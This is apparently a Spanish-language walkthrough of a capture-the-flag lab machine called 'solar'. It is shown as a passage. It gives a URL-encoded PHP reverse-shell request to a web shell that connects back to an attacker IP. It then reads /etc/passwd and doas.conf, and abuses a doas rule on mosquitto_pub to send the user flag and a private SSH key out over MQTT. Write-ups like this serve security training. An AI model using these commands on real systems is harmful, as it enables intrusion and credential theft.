 ```
https://www.solar.nyx/records/shell.php?cmd=php%20-r%20%27%24sock%3Dfsockopen%28%22192.168.1.116%22%2C12345%29%3Bexec%28%22%2Fbin%2Fbash%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27
```

Ya tenemos `shell` con `www-data`.

![alt text](../../../assets/images/solar/image-13.png)

## www-data a Lenam

Hacemos el tratamiento de la TTY.

```bash
$ cat /etc/passwd|grep sh  
root:x:0:0:root:/root:/bin/bash
lenam:x:1000:1000:,,,:/home/lenam:/bin/bash
sshd:x:102:65534::/run/sshd:/usr/sbin/nologin
julian:x:1001:1001::/home/julian:/bin/sh

$ cat /etc/doas.conf 
permit nopass www-data as lenam cmd /usr/bin/mosquitto_pub
permit lenam as julian cmd /bin/kill
permit setenv { PATH } julian as root cmd /usr/local/bin/backups

```

Podemos ejecutar `mosquitto_pub` como el usuario `lenam` mediante `doas` sin password.

### Obtener `user.txt` e `id_ed25519` de lenam

Encontramos la flag `/home/lenam/user.txt` y también algunas claves SSH. Nos suscribimos al topic `filtrate` en el cliente MQTT y ejecutamos los siguientes comandos.

```bash
doas -u lenam /usr/bin/mosquitto_pub -L mqtt://5up3r:bloods@localhost:1883/filtrate -f /home/lenam/user.txt
doas -u lenam /usr/bin/mosquitto_pub -L mqtt://5up3r:bloods@localhost:1883/filtrate -f /home/lenam/.ssh/id_ed25519
```